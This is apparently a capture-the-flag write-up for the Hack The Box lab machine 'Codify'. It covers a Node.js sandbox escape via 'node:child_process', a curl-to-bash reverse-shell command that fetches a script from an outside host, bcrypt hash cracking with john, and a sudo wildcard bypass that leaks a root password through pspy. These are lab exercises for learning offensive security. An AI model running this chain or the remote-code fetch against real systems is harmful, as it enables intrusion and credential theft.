

# Codify

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.48.74                         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-04 23:06 EDT
Nmap scan report for 10.129.48.74
Host is up (0.016s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

Did a detailed scan as well:

```
$ nmap -p 80,3000 -sC -sV --min-rate 3000 10.129.48.74          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-04 23:07 EDT
Nmap scan report for 10.129.48.74
Host is up (0.011s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb
```

I added `codify.htb` to the `/etc/hosts` file.

### Web Enum -> Node.js RCE

The web application ran an application to allow for Node.js sandboxing:


There are some 'Limitations' set by the creator, and it includes the following:


So the obvious methods of achieving RCE are not allowed. When I tested it with `child_process`, it got blocked:


However, this does not mean that it blocks `node:child_process`:


`child_process` is an outdated module, whereas `node:child_process` is an entirely different module that is more efficient and runs with less overhead.

Using this, I ran this code to get a shell as the user `svc`:

```js
const { spawn } = require('node:child_process');
spawn('bash', [ '-c', 'curl 10.10.14.5/shell.sh|bash'],{'detached':true});
```


## Privilege Escalation

Did some basic enumeration of the machine. First I checked out the `/var/www/html` folder:

```
svc@codify:/var/www$ ls -la
total 20
drwxr-xr-x  5 root root 4096 Sep 12 17:40 .
drwxr-xr-x 13 root root 4096 Oct 31 07:57 ..
drwxr-xr-x  3 svc  svc  4096 Sep 12 17:45 contact
drwxr-xr-x  4 svc  svc  4096 Sep 12 17:46 editor
drwxr-xr-x  2 svc  svc  4096 Apr 12  2023 html
```

### Viewing RCE Vuln

Took a detour and looked at the JS code that was responsible for the initial RCE:

```js
app.post('/run', (req, res) => {
    const code = Buffer.from(req.body.code, 'base64').toString('utf-8');

    const vm = new VM({
            timeout: 5000,
            console: 'redirect', 
            sandbox: {
                    console: {
                    log: (...args) => {
                        var output_initial = args.map((arg) => String(arg)).join(' ');
                        output.push(output_initial);
                    },
                    },
                    require: (moduleName) => {
                        if (['child_process','fs'].includes(moduleName)) {
                        throw new Error(`Module "${moduleName}" is not allowed`);
                        }
                        return require(moduleName);
                    }
            },
            });
            
            
            try {
                var output = [];
                var output_initial = vm.run(code);
                output.push(output_initial);


                res.json({ output : output.join('\r\n') })
                } catch (error) {

                errMsg = error.message.split('\n')[0];
                res.json({  error : errMsg });
            }
});
```

There's a check to see what modules are used via checking for `require`, and it also explains why `node:child_process` was allowed since it only checks for whether `child_process` is required.

### Tickets -> User Password

Within the `/var/www/tickets` directory, there's a `tickets.db` file:

```
svc@codify:/var/www/contact$ ls -la
total 120
drwxr-xr-x 3 svc  svc   4096 Sep 12 17:45 .
drwxr-xr-x 5 root root  4096 Sep 12 17:40 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12 17:45 tickets.db

svc@codify:/var/www/contact$ file tickets.db
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```

I transferred this back to my machine via `nc`, and then opened it up with `sqlite3`:

```
$ sqlite3 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open tickets.db
sqlite> .tables
tickets  users

sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

This hash can be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash   
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)     
1g 0:00:00:24 DONE (2023-11-04 23:28) 0.04029g/s 55.11p/s 55.11c/s 55.11C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, I could `su` to the user `joshua`.


## Sudo Privileges -> Wildcard Bypass

`joshua` could run a script as `root`:

```
joshua@codify:/var/www/contact$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Here's the contents of the script:

```bash
joshua@codify:/var/www/contact$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!
```

There's no PATH hijacking since all the commands use the full PATH. `pspy64` could allow me to read the `root` password since it is directly passed into the `mysqldump` command. However, I needed to somehow bypass the `if [[$DB_PASS == $USER_PASS]]` check first.

I know that my input is directly passed into it, and it is not sanitised at all, and there was no way for me to read the actual password. The question here is, **how do I always force a true condition for a string comparison?**

During my testing, I realised I could enter special characters. Using the wildcard `*` character, the `if` condition is always true, because `*` matches all characters and spaces.

As such, in a second shell as `joshua`, I ran `pspy64`. In my initial shell, I ran the script as `root`, and was able to capture the password:

```
2023/11/05 04:30:49 CMD: UID=1000 PID=2666   | sudo /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:49 CMD: UID=0    PID=2667   | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:50 CMD: UID=???  PID=2671   | ???
2023/11/05 04:30:50 CMD: UID=0    PID=2672   | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:50 CMD: UID=0    PID=2674   | /usr/bin/grep -Ev (Database|information_schema|performance_schema)                                                                         
2023/11/05 04:30:50 CMD: UID=0    PID=2673   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;                                                       
2023/11/05 04:30:50 CMD: UID=0    PID=2678   | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:50 CMD: UID=0    PID=2677   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql                                                        
2023/11/05 04:30:51 CMD: UID=0    PID=2681   | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:51 CMD: UID=0    PID=2680   | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:52 CMD: UID=???  PID=2684   | ???
2023/11/05 04:30:52 CMD: UID=0    PID=2685   | /usr/bin/chmod 774 -R /var/backups/mysql
```

Using this, I could `su` to `root`:



Rooted! Learnt something new here.